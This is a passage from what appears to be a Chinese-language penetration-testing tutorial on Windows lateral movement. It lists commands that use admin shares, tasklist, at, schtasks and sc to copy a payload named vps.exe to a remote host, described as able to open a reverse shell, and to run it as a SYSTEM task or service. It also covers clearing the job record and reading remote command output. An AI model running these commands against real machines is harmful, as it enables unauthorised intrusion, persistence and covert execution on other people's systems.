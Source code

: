 ![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIFYomTz6fiaarfd8464GFkQ89KrnTDqshp7yv8e4fhFaCfkL9ljGwWKA/640?wx_fmt=png)

也可以直接在文件管理用命令：\192.168.10.131\c$ 查看对应的文件及目录，也可以增删改查  

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEI7JvxwlF3LjUVCR0k9cxjB4d7SLbbKZnnFVEYHibSfhW8UYrQZqh3W4w/640?wx_fmt=png)

### tasklist 命令 (查看进程)

```
tasklist /S 192.168.10.131 /U administrator -P 密码
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEI3ibkbwmvx8HhcGc4pk2GKWDMBuaOeSGiasYIVot22YJqkmtHuFWXW5JQ/640?wx_fmt=png)

### at 命令 (计划命令，可反弹 shell)

*   查看目标系统时间：net time \192.168.10.131
    
*   将本目录下的指定文件复制到目标系统中：copy vps.exe \192.168.10.131\c$
    
*   使用 at 创建计划任务：at \192.168.10.131 17:00:00 C:\vps.exe
    
*   清除 at 记录：at \192.168.10.131 作业 ID /delete
    
*   使用 at 命令执行，将执行结果写入本地文本文件，再使用 type 命令查看该文件的内容：at \192.168.10.131 17:00:00 cmd.exe /c "ipconfig > C:/1.txt"
    
*   查看生成的 1.txt 文件：type \192.168.10.131\C$\1.txt
    

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEI2Rbd1rWApI7zc6nngCA4qicKrdicW2UzvNgp9d6xeNicJRxfw8UEEXJTw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIMbTwKkUg7MoiagNVJJrUGiaGG7gpqBxMSMBHhBaQcWDWVXG2uvUcNTdw/640?wx_fmt=png)

### schtasks(计划任务)

Windows Vista、Windows Server 2008 及之后版本的操作系统已经弃用 at 命令，而转为用 schtasks 命令。schtasks 命令比 at 命令更灵活。在使用 schtasks 命令时，会在系统中留下日志文件：C:\Windows\Tasks\SchedLgU.txt

```
在目标主机上创建一个名为test的计划任务，启动程序为C:\vps.exe，启动权限为system，启动时间为每隔一小时启动一次
schtasks /create /s 192.168.10.131 /tn test /sc HOURLY /mo 1 /tr c:\vps.exe /ru system /f

其他启动时间参数：
/sc onlogon  用户登录时启动
/sc onstart  系统启动时启动
/sc onidle   系统空闲时启动

查询该test计划任务
schtasks /query | findstr test

启动该test计划任务
schtasks /run /s 192.168.10.131 /i /tn "test"

删除该test计划任务
schtasks /delete /s 192.168.10.131 /tn "test" /f

sc命令创建计划任务
copy test.exe \\192.168.10.20\c$
sc \\192.168.10.20 create test binpath= "c:\test.exe"
sc \\192.168.10.20 start test
sc \\192.168.10.20 del test
```
